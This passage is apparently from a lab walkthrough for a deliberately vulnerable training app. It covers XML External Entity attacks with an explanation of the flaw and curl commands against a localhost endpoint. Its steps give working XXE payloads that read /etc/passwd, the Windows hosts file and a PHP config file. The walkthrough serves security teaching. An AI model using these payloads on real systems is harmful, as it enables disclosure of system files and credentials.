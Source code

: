 
## 5. XML External Entity (XXE)

### Vulnerability Description
XXE attacks exploit XML parsers that process external entity references, allowing attackers to access local files, internal network resources, or cause denial of service.

### Impact
- Local file disclosure
- Internal network scanning
- Denial of service attacks
- Remote code execution
- Data exfiltration

### Lab Solution Steps

#### Step 1: Identify XML Input
**Objective:** Find endpoints that accept XML data

```bash
curl -X POST "http://localhost:5000/api/vuln/xxe" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><root>test</root>"
```

**Expected Response:** XML processing occurs
**Explanation:** Test basic XML processing functionality to confirm the endpoint accepts and processes XML input.

#### Step 2: Test External Entity
**Objective:** Inject external entity reference

```bash
curl -X POST "http://localhost:5000/api/vuln/xxe" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><root>&xxe;</root>"
```

**Alternative files to test:**
```bash
# Windows
curl -X POST "http://localhost:5000/api/vuln/xxe" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM \"file:///C:/windows/system32/drivers/etc/hosts\">]><root>&xxe;</root>"

# Application files
curl -X POST "http://localhost:5000/api/vuln/xxe" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM \"file:///var/www/html/config.php\">]><root>&xxe;</root>"
```
